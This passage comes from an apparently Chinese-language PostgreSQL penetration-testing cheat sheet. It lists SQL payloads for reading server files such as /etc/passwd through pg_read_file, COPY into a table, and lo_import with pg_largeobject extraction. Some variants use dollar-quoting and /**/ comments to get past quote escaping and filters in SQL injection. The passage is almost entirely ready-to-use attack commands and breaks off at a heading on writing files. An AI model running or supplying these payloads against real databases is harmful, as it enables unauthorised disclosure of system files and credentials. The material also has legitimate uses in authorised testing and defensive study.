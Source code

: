 ```sql
ORDER BY 1;
```

![](../../img/postgresql-pentest/18.png)

---

# PostgreSQL 读文件

**方法1 pg_read_file**

```sql
-- 注意: 在早期的 PostgreSQL 版本中,pg_read_file 不允许使用绝对路径
select pg_read_file('/etc/passwd');

-- 单引号被转义的情况下使用
select/**/PG_READ_FILE($$/etc/passwd$$)
```

![](../../img/postgresql-pentest/15.png)

**方法2**

```sql
create table testf0x(t TEXT);
copy testf0x from '/etc/passwd';
select * from testf0x limit 1 offset 0;
```

![](../../img/postgresql-pentest/8.png)

**方法3 lo_import**

lo_import 允许指定文件系统路径。该文件将被读取并加载到一个大对象中，并返回该对象的 OID。

```sql
Select lo_import('/etc/passwd',12345678);
select array_agg(b)::text::int from(select encode(data,'hex')b,pageno from pg_largeobject where loid=12345678 order by pageno)a

-- 单引号被转义的情况下使用
select/**/lo_import($$/etc/passwd$$,11111);
select/**/cast(encode(data,$$base64$$)as/**/integer)/**/from/**/pg_largeobject/**/where/**/loid=11111
```

![](../../img/postgresql-pentest/9.png)

![](../../img/postgresql-pentest/10.png)

---

# PostgreSQL 写文件
